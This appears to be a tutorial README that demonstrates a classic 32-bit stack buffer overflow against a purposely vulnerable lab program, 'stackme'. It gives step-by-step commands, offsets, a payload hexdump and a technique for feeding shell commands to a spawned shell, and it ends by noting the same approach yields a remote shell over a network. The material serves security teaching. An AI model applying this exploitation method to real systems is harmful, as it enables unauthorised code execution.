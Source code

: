 # Stack Smashing Demo

Tested on Ubuntu 16.04 LTS

## Install toolchain for compiling for 32-bit

Since we are smashing the stack like it is 1995 anyway.

```
sudo apt-get install libc6-dev-i386
```

## Enable core dumps

First change the core file block-size limit from its default of 0

```
$ ulimit -c unlimited
```

Then change the `core_pattern` to something sensible. The following
always puts the core dump in the file 'core' but one can use e.g.
"core.%P" instead to append the process id to generate pseudo-unique
file names.

Note the following has to be run as root.

```
$ echo "core" > /proc/sys/kernel/core_pattern
```


## Crash the program, get control of EIP (program counter)

Here we use any long input. By convention we use a big string of AAAAs

````
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````

````
$ ./stackme < input.AAAA
````

````
$ gdb ./stackme core
... gdb output follows ...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41414141 in ?? ()
````

Note that the pc is at 0x41414141 ('AAAA') meaning that our input has eneded
up in the pc, so we have control over it.

## Find the input that ends up being in the pc

The stack buffer is 32 bytes long. The return address turns out to live
at the fourth word after that on my 16.04 VM

This requires modifying some of the AAAAs to e.g. BBBB, CCCC, DDDD and
seeing which one ends up being in the PC

```
$ ./stackme < input.find_offset
```

```
$ gdb ./stackme core
...
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x45454545 in ?? ()
```

## Exploit Step 1

In this trivial case, we write the pc so that the program executes
the 'some_function' function which, conveniently, gives us a shell.

gdb can identify the address of 'some_function' wince the program is
compiled -no-pie and so each function has a fixed global address

```
$ gdb ./stackme
...
(gdb) print some_function
$1 = {void ()} 0x804852b <some_function>
```

## Put that address into the input at the right offset

For this I use the 'hexedit' program to edit the input file

Remember it has to go in reverse order because x86 is little endian
So the input to get the program to jump to some_function looks like this
(the following is a hexdump)

```
00000000   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000010   41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  AAAAAAAAAAAAAAAA
00000020   42 42 42 42  43 43 43 43  44 44 44 44  2B 85 04 08  BBBBCCCCDDDD+...
```

This input is in the file `input.jump_to_func`. When we run the program
with this input note that it doesn't crash anymore and it also doesn't
print the final "Goodbye!" message. This means that the jump to
`some_function` has worked.

```
$ ./stackme < input.jump_to_func
Welcome to level 0

Please enter your name:

Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD+�FFFF
!
```

## Exploit Step 2

Now we need to make our exploit do something. The reason that, when
the input above causes the shell to be invoked, the program does nothing
is because the shell has no input to read. We need to give it some input.
It gets its input from stdin, i.e. from the input file we are iteratively
writing. So our commands to the shell have to go into that input.

(Note: these commands are *not* what is meant by the term "shellcode".
Shellcode is binary code that causes the program to execute a shell. Our
program already has a function for doing that, so we don't need to write
any shellcode. What we are writing here are textual commands that will be
read by the shell once it runs that instructs the shell to do something
on our behalf.)

It turns out that when the first data is read from stdin, internally
the kernel tries to read 4096 bytes of input. Then after the `execve`,
when the shell is running, the shell tries to read more 
input from stdin. Therefore, to reliably get the shell to read our commands,
we need to put them in the input file after the first 4096 bytes of input.

You can confirm this by running `strace ./stackme < input.jump_to_func`
and looking through the `strace` output of all the system calls. Look
especially for calls of the form `read(0,...)` which are reads to stdin,
and `execve` which are executions of new binaries.

```
$ strace ./stackme  < input.jump_to_func  2>&1 | grep 'read(0\|execve'
execve("./stackme", ["./stackme"], [/* 67 vars */]) = 0
read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 53
execve("/bin/sh", NULL, NULL)           = 0
read(0, "", 8192)                       = 0
```

We can get our shell commands into the input therefore by padding the
input with 4096 ASCII NUL charcters (byte 0x0 -- i.e. 4096 zero bytes).
These will be ignored by the shell anyway if it reads any. Our commands
can then come after that.

Make a file `zeros` with 4096 zero bytes in it:
```
$ dd if=/dev/zero of=zeros bs=4096 count=1
```

Make a file `shell_commands` with your shell commands in it.

Then stich these together with the input that jumps to `some_function`
and put the results into the file `input.exploit`:

```
$ cat input.jump_to_func zeros shell_command > input.exploit
```

```
$ ./stackme < input.exploit
```

Your shell commands should then be executed.

Of course you could have executed them yourself. But suppose
`stackme` was running over the network and you could give it input remotely.
You would now have a working shell on the remote computer.









